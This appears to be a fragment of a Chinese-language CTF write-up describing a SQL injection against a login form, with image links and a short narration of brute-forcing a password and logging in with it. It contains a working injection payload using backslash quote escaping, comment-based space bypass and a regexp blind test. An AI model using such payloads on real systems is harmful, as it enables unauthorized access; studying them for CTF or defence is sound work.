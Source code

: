 payload:`username=\&passwd=||passwd/**/regexp/**/"^y";%00`

![upload successful](/images/pasted-477.png)
继续使用脚本爆破密码

![upload successful](/images/pasted-478.png)
使用任意账号和这个密码，成功登录
